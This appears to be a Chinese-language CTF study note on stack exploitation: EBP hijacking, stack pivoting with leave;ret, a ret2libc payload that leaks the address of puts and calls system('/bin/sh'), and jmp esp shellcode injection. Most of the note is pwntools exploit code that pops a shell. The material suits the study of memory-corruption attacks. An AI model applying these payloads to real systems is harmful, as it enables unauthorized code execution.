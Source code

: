 ### ebp 劫持

#### 一、修改main_ebp -> （实质）间接修改main_return_address

main_ebp -> target_addr 

```python
main -> func(a,b)




b
a
func_return_main
				<= func_ebp = main_ebp (to fake)
				
				
				
				<= fun_esp
				
main_return_address -> target_func
main_ebp -> target_address
				
				
```

```python
paylaod = padding + p32(target_func) + p32(target_addr)
```

**即修改main_ebp ,在 main 函数返回时，leave ;	ret ;**

**leave 后 esp = ebp ，再pop ebp;那么 esp -> 返回地址。即在之前布置ebp的高4字节处改为system -> getshell**

#### 栈劫持

对于wiki上的 ret2libc 的题可以利用栈劫持(pop_ebp + leave_ret)去做(即只利用了一次栈溢出) //没有

```python
payload   = padding + (esp_padding?)  + fake_ebp

payload += p32(elf.plt["puts"]) + p32(pop_ret) + p32(elf.got["puts"])

payload += p32(elf.plt["gets"]) + p32(pop_ret) + p32(bss_addr)

payload += p32(pop_ebp_ret) + p32(bss_addr) + p32(leave_ret)
#ebp -> bss  ; mov esp,ebp  ; pop ebp  ;  ret ->system

p.sendlineafter("Can you find it!?",payload)
puts_addr = u32(p.recv(4))
libc_base = puts_addr - libc.symbols["puts"]
libc.address = libc_base
system = libc.symbols["system"]
binsh = libc.search("/bin/sh").next()

payload = "junk" + p32(system) + "junk" + p32(binsh)
p.sendline(payload)
p.interactive()
```



#### 三、 若有，可以利用 jmp  esp;

```
jmp_esp_addr = 0x8048504
shellcode = " " # 短的sc
padding = ''
payload = ''
payload +=shellcode.ljust(padding + fake_ebp ,"\x90")
payload += asm("sub esp,40;jmp esp")
hyq.sendlineafter(" ",payload)
hyq.interactive()
```

即劫持eip = esp ; 利用往栈上写指令，写shellcode 并执行 -> getshell.



参考链接：https://www.bilibili.com/video/BV1JV411m7PC?p=3